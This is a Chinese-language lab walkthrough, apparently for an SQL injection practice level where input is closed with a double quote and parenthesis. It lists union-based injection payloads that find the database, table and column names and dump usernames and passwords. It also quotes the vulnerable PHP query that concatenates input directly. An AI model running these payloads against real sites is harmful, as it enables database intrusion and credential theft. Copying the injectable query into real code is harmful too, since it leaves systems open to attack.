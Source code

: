 # 确认闭合类型
当我们按照第一题的步骤进行时，会发现我们无法进行order by  
而且?id=1'也没有任何报错，这时候就要思考换一种闭合方式，也就是双引号  
当我们输入?id=1"时，报错了  
    near '"1"") LIMIT 0,1' at line 1  
    "1"") LIMIT 0,1  
可以发现，跟第一题相比，单引号变成了双引号，而且也是有括号闭合  
那么接下来思路就一样了  
# 确认回显位置
?id=-1") union select 1,2,3--+

# 查询数据库名
?id=-1") union select 1,database(),3 --+

# 查询表名
?id=-1") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

# 查询列名
?id=-1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' and table_schema=database()--+

# 查询值
?id=-1") union select 1,group_concat(username),group_concat(password) from users--+

# 源码
$id = '"' . $id . '"';  
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";  
对输入进行了双引号闭合